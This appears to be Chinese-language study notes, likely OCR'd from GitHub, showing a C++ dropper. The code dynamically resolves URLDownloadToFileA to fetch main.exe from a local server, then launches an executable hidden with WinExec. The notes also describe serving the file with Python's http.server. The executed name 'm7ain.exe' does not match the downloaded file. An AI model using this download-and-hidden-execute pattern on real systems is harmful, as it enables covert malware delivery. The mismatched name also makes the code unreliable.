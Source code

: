  ```c++
  #include <urlmon.h>
  #include <Windows.h>
  typedef HRESULT(WINAPI* MY)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);
  
  int main() {
  	HMODULE hurlmod = LoadLibrary(L"urlmon.dll");
  	MY function_ptr = (MY)GetProcAddress(hurlmod, "URLDownloadToFileA");
  	function_ptr(
  		NULL,
  		"http://localhost:8000/main.exe",		
  		"main.exe",				
  		0,
  		NULL
  	);
  	WinExec("m7ain.exe", SW_HIDE);
  }
  ```

+ 第二个代码遇到的问题：

    + python环境有点儿问题，无法下载http.service,无法再本地开启一个服务；

      + 已解决：使用anaconda来管理python版本，使之不再混乱，目前可以安装各种包。

      + 命令是`python -m http.server`(需要再包含目标程序的路径下打开anaconda的powershell或者打开powershell后切换路径，这样再浏览器访问的时候才可以下载到main.exe)

        ![image-20201023111553306](images/image-20201023111553306.png)
